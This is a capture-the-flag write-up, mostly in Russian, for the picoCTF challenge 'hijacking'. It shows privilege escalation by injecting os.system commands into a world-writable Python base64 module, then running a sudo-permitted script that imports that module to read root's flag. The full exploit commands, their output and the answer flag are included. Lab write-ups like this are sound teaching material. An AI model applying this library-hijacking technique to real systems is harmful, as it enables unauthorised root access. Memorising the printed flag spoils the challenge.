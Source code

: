 # hijacking #
Category: Binary Exploitation

 
Score: 200
 
 Original description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
 
# Hints
1. Check for Hidden files

2. No place like Home:)

   
## Solution ##
 
Подключаемся по ssh.

Посмотрим скрытые файлы:

 picoctf@challenge:~$ ls -al
 total 20
 drwxr-xr-x 1 picoctf picoctf   36 Apr  1 10:16 .
 drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
 -rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
 -rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
 drwx------ 2 picoctf picoctf   34 Apr  1 10:05 .cache
 -rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
 -rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
 -rw------- 1 picoctf picoctf  960 Apr  1 10:16 .viminfo

Запустим .server.py

picoctf@challenge:~$ python3 .server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File ".server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname

Выдает ошибку.

Посмотрим через cat файлик:

picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 

Найдём местоположение используемых модулей :

picoctf@challenge:~$ python3
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']

Глядя на разрешения base64 модуля внутри /usr/lib/python3.8, мы имеем полный доступ для чтения, записи и выполнения.

picoctf@challenge:~$ ls -al /usr/lib/python3.8
-rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

Итак, можно модифицировать импортированный base64 модуль с помощью нашего собственного кода, т.к. весь код в импортированном модуле выполняется при импорте.

Проверим, какие команды можно запускать через sudo :

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
  (ALL) /usr/bin/vi
  (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Добавим в начало/lib/python3.8/base64.py через vim следующие строки :

import os
os.system('whoami')
os.system('ls -al /root > /home/picoctf/r.txt')
os.system('cat /root/.flag.txt')

Запусим .server.py:

picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
root
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname


flag: picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}


